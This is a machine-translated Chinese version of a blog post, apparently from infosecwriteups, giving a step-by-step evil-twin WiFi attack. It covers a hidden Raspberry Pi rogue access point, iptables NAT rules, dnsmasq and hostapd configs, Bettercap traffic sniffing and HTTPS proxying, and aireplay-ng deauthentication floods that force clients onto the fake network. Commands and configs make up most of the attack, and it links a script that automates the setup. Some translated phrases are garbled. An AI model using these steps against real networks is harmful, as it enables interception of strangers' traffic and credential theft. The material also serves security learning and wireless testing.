

# WiFi 黑客周 Pt。4 —邪恶的双胞胎攻击

> 原文：<https://infosecwriteups.com/wifi-hacking-week-pt-4-evil-twin-attacks-63f79a800206?source=collection_archive---------0----------------------->


但实际上不要…

如果你正在阅读这篇文章，这意味着你已经是这个 WiFi 安全系列的第四篇文章了，你不小心点击了这个链接，或者你只是好奇一个人可能会以何种实际方式创建一个恶意的 WiFi 接入点，以达到中间人无线互联网连接的目的。如果你没有读过之前的文章，并且觉得你需要一些背景信息，请随意从这里开始。在这篇博文中，我们将详细介绍攻击者如何将流氓设备配置为恶意接入点，并将其秘密植入网络，以捕获流量并实施恶意攻击。

我们概述的场景是一个恶意参与者提前配置了一个 Raspberry Pi 来连接到真实的网络，并作为一个具有良性名称的接入点运行，这不会使任何人为了访问互联网而对连接它犹豫再三。Raspberry Pi 或其他单板计算机非常适合这种情况，因为它们便宜，易于安装，并且足够小，可以隐藏起来，不被相关方检查。如何隐藏这样的设备超出了本文的范围。当想象这个场景发生在现实世界中时，我会让你去创造性地思考。如果你没有覆盆子酱，不用担心。使用您自己的 Linux 计算机，您也可以很容易地跟上。需要注意的是，要做到这一点，您需要一个辅助无线网络接口。我用的是阿尔法 [AWUS036NEH](https://www.amazon.com/Alfa-AWUS036NEH-Wireless-Long-Range-Original/dp/B003ZW6CZC) ，但你可以随意使用任何你想要的东西，只要它的固件与 Linux 兼容，并且支持监控模式。如果你不知道那是什么意思，请随意看看我写的关于一些更基本概念的[的前一篇文章](https://medium.com/@djislucid/wifi-hacking-week-1166e534f041)。

## 去钓鱼

我们要解决的第一件事是将我们的设备设置为接入点。这些都不是魔法。我们所做的只是把一台基于 Linux 的计算机变成一台路由器。我选择将我的树莓 Pi 连接到本地测试实验室(我的客厅)的 WiFi 网络，它内置了无线网卡，以便让它感觉更真实。如果你想快速启动并运行它，请随意插入你的家庭路由器，只需知道在真实的攻击场景中，攻击者可能会通过 WiFi 或使用外部 4G 加密狗的 4G 连接植入物到互联网。

好了，让我们来介绍一些基本的定义，这样就不会混淆了。这些是我们将要使用的接口。

```
wlp4s0 — connected to the real access point, and thus the internet
alfa — the interface the evil twin will broadcast it's network on
mon0 - a virtual interface we put into monitor mode (optional)
```

我将从连接 Raspberry Pi——姑且称之为 EVI lap——到真正的接入点开始。如果您只是直接连接到路由器，则可以跳过这一部分。

```
# sudo wpa_supplicant -i wlp4s0 -c /etc/wpa_supplicant/demo.conf
# sudo dhclient wlp4s0
```

现在，这一步是可选的，但是如果在以后的某个时候，您希望能够主动解除本地客户端的授权，希望让它们重新连接到您的 EvilAP，那么您将需要一个附加的接口，您可以将它设置为监控模式。鉴于我们的 *alfa* 接口将在主模式下运行，我们可以从 *alfa* 接口派生出一个虚拟接口，并将其设置为监控模式。

```
# iw alfa interface add mon0 type monitor
```

现在我们有了一个名为 *mon0* 的接口，它的行为就像一个物理加密狗。如果有必要，您可以使用这个接口来嗅探数据包并解除客户端的身份验证，而其他接口则忙于它们的事务。好了，现在让我们为我们的外部 WiFi 适配器做一些路由配置。

```
# sudo ip link set alfa up
# sudo ifconfig alfa 192.168.88.1 netmask 255.255.255.0
# sudo route add -net 192.168.88.0 netmask 255.255.255.0 gw 192.168.88.1
```

我们在这里所做的只是为我们的 EvilAP 网络配置默认路由和网关。我选择了子网 192.168.88.0/24，但是你可以选择任何你想要的私有子网范围，只要它不与你的 EvilAP 当前连接的子网范围相同。

我们还需要通过配置一些 IPtables 防火墙规则来确保流量可以在 EvilAP 网络和常规网络之间自由流动。

```
# iptables -F
# iptables -X
# iptables -A FORWARD -i alfa -o wlp4s0 -j ACCEPT
# iptables -A FORWARD -i wlp4s0 -o alfa -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
# iptables -t nat -A POSTROUTING -o wlp4s0 -j MASQUERADE
```

如果还没有配置的话…

```
# sudo -s 
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

我们所做的只是允许在 *alfa* 和 *wlp4s0* 之间转发流量，以及允许 NAT 路由，这样所有离开 *alfa* 接口去往 *wlp4s0* 和从 *wlp4s0* 发出的数据包都将被“伪装”为来自*wlp4s 0*的数据包。然后，如果之前没有配置，我们允许在内核级转发数据包，否则实际上什么都不会通过。此时，您的 EvilAP 被配置为充当基本路由器，允许流量在 EVI 接入点接口和连接到真实网络的接口之间自由通过。

## 配置必要的服务

接下来，我们将利用两个实用程序的服务:dnsmasq 和 hostapd。这两个服务都有默认的配置文件，但是只要在我们启动这些服务时正确地调用它们，您就可以很容易地创建全新的配置文件并将它们存储在您喜欢的任何地方

dnsmasq.conf

```
interface=alfa
dhcp-range=192.168.88.10,192.168.88.100,255.255.255.0,12h
dhcp-option=3,192.168.88.1
dhcp-option=6,192.168.88.1
server=1.1.1.1
server=64.6.64.6
log-queries
log-dhcp
listen-address=127.0.0.1
```

hostapd.conf

```
interface=alfa
country_code=US
driver=nl80211
ssid=EvilAP
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=eviltwinpass
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
ieee80211n=1
wmm_enabled=1
```

如果你的和我的不同，记得调整接口和 DHCP 选项。请注意， *ssid* 行是您的 EvilAP 将广播的接入点的名称。所以…如果出于某种奇怪的原因，你选择从我的文章中学习 wifi 测试，我鼓励你把名字改得不那么显眼。

让我们开始吧。

```
# hostapd -B ./hostapd.conf
# dnsmasq -C ./dnsmasq.conf
```

此时，一切都应该启动并运行了。恭喜你！您已经成功地将您的 Linux 机器或单板计算机变成了一个正常工作的接入点。请随意打开手机上的 Wi-Fi 设置，并查看 EvilAp 接入点广播它不是那么秘密的存在。

## 更好地使用 Bettercap

为什么我说更好？最初，我遵循了某个资源，它告诉我安装一个版本，结果证明是相当无用和过时的，所以在安装这个方便的工具时，一定要遵循官方文件。

如果我们的邪恶接入点只是允许客户端连接到它，那么它就不是非常邪恶。这就是 Bettercap 的用武之地。Bettercap 是一个非常通用且易于使用的工具，它使安全爱好者、专业人员和逆向工程师(以及其他一些人)能够对 WiFi 和蓝牙网络进行各种无线侦察和攻击。

首先，我们将 Bettercap 连接到 EvilAP 的广播接口，这样我们就可以看到那里发生的活动。

```
# bettercap -iface alfa
> net.sniff on
> net.show
```



玩得开心点，孩子们

我们在 EvilAP 接口上启动 Bettercap，打开网络嗅探功能，然后我们看看网络上当前有什么。您的输出可能会因您自己实验室中运行的设备而异，但您可能会看到一些您认识的设备。如果你还没有，请随时拿起你的电话，连接到 EvilAP 或任何你决定调用网络。

一旦你这样做，你会看到一些流量通过新设备连接。激动人心吧？

顺便说一句，如果你想稍微简化一下 Bettercap 的用法，用这些内容创建一个名为 *eviltwin.cap* 的文件:

```
net.sniff on
net.probe on
net.show
set net.sniff.output output.pcap
```

最后一条命令 bettercap 将所有捕获的流量转储到一个名为 *output.pcap* 的文件中。然后你可以用一个命令运行它。

```
# sudo bettercap -iface alfa -caplet eviltwin.cap
```

## 用炸药捕鱼

好吧，这很酷，但不是每个人都愿意连接到你的网络。有几种方法可以解决这个问题，有几种方法很有效，但是比较吵。我们已经在[之前的](https://medium.com/@djislucid/wifi-hacking-week-pt-3-abusing-the-infrastructure-2caa6ebf6568)帖子中讨论过了。这就是我们早先设置 *mon0* 接口的原因。如果你很想钓几条鱼(或者一吨，取决于某些因素)，你可以把它们从当前连接的网络上轰掉。如果你的网络名称与他们刚才所在的网络名称相同，并且你离他们更近，或者有其他方法提供比他们之前所在的网络更强的信号，他们可能会自动重新连接到你的邪恶双生网络。

```
# aireplay-ng --deauth 50 -a <GoodAPMAC> -c <GoodAPChannel> mon0
```

显然，用你要投入炸药的网络的实际接入点和信道代替<goodapmac>和<goodapchannel>。你实际上是用 deauth 包在网络上发送垃圾邮件，把你能接触到的所有东西都踢走了。</goodapchannel></goodapmac>

这个。是。声音很大。更有可能的是，在真实的订婚中你不会这么做。如果你正在当地的酒吧尝试这样做，那么当连接 WiFi 的点唱机轻率地向每个正在欣赏那些乡村音乐的人宣布它已经与互联网断开时，你一定会感到尴尬。希望你的大天线阿尔法卡没有闪太多。你可以直接射箭，而不是把炸药扔进河里。

```
#  aireplay-ng -0 1 -a <ap_MAC> -c <client_MAC> alfa
```

噪音小得多，他们可能不会注意到，但客户可能会对他们神秘地与互联网断开一秒钟感到恼火。在某些情况下，客户可能会发现有些不对劲。

当我们讨论噪声时，您添加到 eviltwin.cap 中的`net.probe`条目告诉 Bettercap 不断探测网络，寻找连接的主机。这和取消他们的授权不一样，但也不是秘密的。因此，选择何时明智地使用这种行为。

## 这样我就能知道密码了。

没有。还没有，傻瓜。我们甚至还没有开始代理 HTTPS 的流量。请在 Bettercap 提示符下继续操作。

```
> https.proxy on
```

您可以看到 Bettercap 为它的代理使用了默认的 TLS 证书。我不打算长篇大论地解释什么是 TLS 证书或者它们是如何工作的，因为有大量的[公开资源](https://www.digicert.com/tls-ssl/tls-ssl-certificates)可以比我更好地解释它们。基本上，你的浏览器有一个经验证的权威存储库，当用户的流量在网络上传输时，它会告诉你哪些证书是值得信任的。因此，当你不知情的客户试图访问一个启用了 HTTPS 的网站(几乎所有的网站)时，他们会看到浏览器发出一个类似这样的警告。


你可以简单地希望他们会走勇敢的旅行者路线，点击小小的显示细节按钮，这样他们无论如何都可以访问网站，不顾一切地小心谨慎，但这不太可能。绕过这一点的唯一方法是让他们在浏览器的信任中安装非法的 Bettercap 证书。或者是？

## 包扎

目前就这些。在接下来的文章中，我们将介绍强制门户以及攻击者窃取凭证、会话令牌甚至绕过 2FA 的一些现代方法。

当测试所有这些时，我结束了多次启动、重启和重新配置，以验证一切正常，并修复我所破坏的东西。最终会有大量的输入和重复，所以为了使它更容易，我写了一个小 bash 脚本，将这些步骤封装成易于运行的命令

[https://github.com/djislucid/wiTk](https://github.com/djislucid/wiTk)

它并不完美(毕竟是 bash)，但它的使用非常简单，除了一些初始配置，它允许您在几秒钟内从一无所有到完全功能性的 evil twin 设置。我还希望它可以作为一个学习工具，因为你可以检查代码，看看哪些命令促进了过程的哪一步。你可以随意使用它，克隆它，或者做任何你想做的事情。在外面注意安全。